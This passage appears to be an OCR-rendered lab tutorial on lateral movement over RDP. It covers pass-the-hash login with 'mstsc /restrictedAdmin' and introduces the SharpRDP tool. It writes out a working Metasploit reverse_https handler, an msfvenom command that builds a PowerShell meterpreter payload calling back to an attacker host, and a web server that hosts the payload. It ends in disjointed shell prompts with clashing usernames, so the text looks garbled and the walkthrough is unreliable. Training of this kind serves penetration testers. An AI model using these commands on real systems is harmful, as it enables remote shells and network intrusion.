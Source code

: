 From the window where we imported the ticket, we can use the `mstsc /restrictedAdmin` command:

```powershell
PS C:\Tools> mstsc.exe /restrictedAdmin

```

It will open a window as the currently logged-in user. It doesn't matter if the name is not the same as the account we are trying to impersonate.

![text](a21YCo5XAdnz.png)

When we click login, it will allow us to connect to RDP using the hash:

![text](QL9Q882l8B2F.png)

## SharpRDP

[SharpRDP](https://github.com/0xthirteen/SharpRDP) is a .NET tool that allows for non-graphical, authenticated remote command execution through RDP, leveraging the `mstscax.dll` library used by RDP clients. This tool can perform actions such as connecting, authenticating, executing commands, and disconnecting without needing a GUI client or SOCKS proxy.

SharpRDP relies on the terminal services library ( `mstscax.dll`) and generates the required DLLs ( `MSTSCLib.DLL` and `AxMSTSCLib.DLL`) from the `mstscax.dll`. It uses an invisible Windows form to handle the terminal services connection object instantiation and perform actions needed for lateral movement.

We will use Metasploit and PowerShell to execute commands on the target machine. In our Linux machine we will execute Metasploit to listen on port 8888:

```shell
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_https; set LHOST 10.10.14.207; set LPORT 8888; set EXITONSESSION false; set EXITFUNC thread; run -j"

```

Then we will generate a payload with msfvenom using PowerShell Reflection:

```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.207 LPORT=8888 -f psh-reflection -o s
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 774 bytes
Final size of psh-reflection file: 3543 bytes
Saved as: s

```

Next we use python http server to host our payload:

```shell
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>